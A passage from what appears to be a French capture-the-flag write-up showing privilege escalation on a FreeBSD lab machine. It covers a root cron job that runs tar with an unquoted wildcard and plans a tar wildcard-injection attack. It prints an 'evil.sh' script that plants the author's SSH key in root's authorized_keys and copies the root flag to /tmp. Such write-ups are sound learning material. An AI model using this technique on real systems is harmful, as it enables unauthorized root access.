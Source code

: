 Le hash semble trop complexe à casser donc on déplace juste le .htaccess et on n'est plus embêté :)   

Les fichiers .BAK (que l'on retrouve aussi dans l'archive .tar.gz) ne semblent pas correspondre à grand chose. Un coup d'oeil via un éditeur hexa ne nous met sur aucune piste.  

Même en ressortant mon *Guide complet du FreeBSD* (superbe livre au passage) sur la section des backups je n'ai rien trouvé qui pourrait me diriger sur le sujet. De plus *dump* et *restore* ne sont pas présents sur le système.  

Un peu plus tard je remarque que les fichiers .BAK ont disparus... Crontab bien sûr :  

```plain
* * * * * root /root/create_backup.sh
*/5 * * * * root /usr/bin/compress.sh
```

Le premier est inaccessible mais le second est lisible :  

```bash
#!/bin/sh

rm -f /home/rene/backup/backup.tar.gz
cd /home/rene/backup
tar cfz /home/rene/backup/backup.tar.gz *
chown rene:rene /home/rene/backup/backup.tar.gz
rm -f /home/rene/backup/*.BAK
```

Je lance quelques idées :  

* Tenter de placer un lien symbolique par exemple vers /etc/shadow pour que tar l'archive : échec car tar ne suit pas les liens
* Exploiter une race condition entre le cd et le tar. Si on supprime le dossier backup et qu'on créé un lien symbolique vers /root et qu'on a réparé ça avant l'appel à tar on peut en théorie récupérer le contenu de /root. Sauf que l'on manque de droit et ça aurait été très chaud...

Heureusement ça a finir par faire tilt quand je me suis rappelé le principe des attaques wildcards : vu que la commande tar utilise l'astérisque et que ce dernier n'est pas entre quotes, il est possible de créer des fichiers dont les noms seront utilisés comme arguments de la commande.  

Je vois bien une option dans la page de man de tar mais elle n'est utilisée que lors d'une décompression :  

```plain
--to-command=COMMAND
    pipe extracted files to another program
```

J'ai fini par trouver [une astuce](https://www.soliantconsulting.com/blog/dangers-wildcards-bash) qui utilise les checkpoints.  

D'abord je créé un script *evil.sh* dans */home/rene/backup* :  

```bash
#!/bin/bash
mkdir -p /root/.ssh/
echo "ssh-rsa [--- ma clé publique ssh ---]" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
cp /root/flag.txt /tmp/
chmod o+r /tmp/flag.txt
```
